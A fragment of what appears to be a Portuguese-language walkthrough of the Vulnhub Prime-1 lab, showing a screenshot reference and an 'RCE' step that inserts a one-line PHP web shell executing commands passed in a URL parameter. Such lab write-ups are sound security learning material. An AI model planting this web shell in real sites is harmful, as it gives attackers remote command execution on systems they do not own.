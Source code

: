 ![](/assets/img/Vulnhub/Prime-1/theme-secret-php.png)




## RCE


* Agora e so inserir o fomoso backdoor php para executarmos codigo via URL

```php
<?php system($_GET['cmd']); ?>
```
